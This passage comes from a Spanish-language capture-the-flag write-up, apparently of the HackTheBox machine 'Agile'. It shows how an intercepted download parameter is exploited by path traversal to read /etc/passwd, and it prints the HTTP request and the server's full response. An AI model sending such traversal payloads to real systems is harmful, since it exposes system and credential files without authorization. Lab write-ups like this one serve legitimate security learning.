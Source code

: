 <img src="/writeups/assets/img/Agile-htb/3.png" alt="">

Intercepto la petición con ```BurpSuite```, y veo que se aplica un redirect a un parámetro que es vulnerable a LFI

```null
GET /download?fn=rubbx_export_222fa488a7.csv HTTP/1.1
```

Obtengo el archivo ```/etc/passwd```

```null
GET /download?fn=../etc/passwd HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 11 Aug 2023 17:51:46 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 1744
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
```